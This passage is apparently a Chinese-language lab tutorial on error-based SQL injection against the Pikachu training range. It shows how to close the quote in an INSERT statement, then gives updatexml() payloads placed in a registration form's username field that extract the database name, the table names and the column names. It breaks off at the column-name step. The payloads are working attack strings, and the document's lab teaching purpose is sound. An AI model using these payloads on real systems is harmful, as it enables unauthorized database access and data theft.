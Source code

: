 





# 演示案例

## 各种“查询”方式注入测试(报错盲注)

靶场地址：pikachu——SQL注入——“insert/update”注入和“delete”注入

insert、update、delete操作的执行在数据库中的执行一般是没有回显的，如果使用普通的select查询的注入语句带入执行，即使执行成功也得不到返回结果，因此要选择报错注入使其有返回结果。

### insert

insert注入的时候如果通过子查询语句拼接并登录上去在找刚才插入的位置，每次测试都要注册一个帐号，那就比较麻烦了。基于updatexml()、extractvalue()、floor()等构造报错点输出我们想要的数据就比较方便了。对于insert语句一般比较常见类似这种

```sql
insert into USERS（username, passwd,email） values('','','')
```

==想要插入语句的时候可以通过or来构造闭合，比如username填入字段`' or evil_sql or '`, 插入到原句中就可以实现执行恶意语句的效果==

```sql
insert into USERS（username, passwd,email） values('' or evil_sql or','','')
```

pikachu的“insert/update”注入首先是一个账号注册界面，注册时产生的数据库操作一般为insert插入数据，可以在注册的值中插入SQL报错注入语句，注册时进行抓包和改包操作：

通过updatexml()报错,注入语句如下:

#### 报错注入查询数据库名

```sql
username=zhangsan' or updatexml(1,concat(0x7e,database(),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```

![](https://gitee.com/YatJay/image/raw/master/img/202202121248310.png)

#### 报错注入查询表名

```sql
username=lisi' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```

![](https://gitee.com/YatJay/image/raw/master/img/202202121303283.png)

#### 报错注入查询列名

```sql
username=lisi' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='member'),0x7e),0) or '&password=zhangsan&sex=man&phonenum=12345678910&email=beijing&add=beijing&submit=submit
```
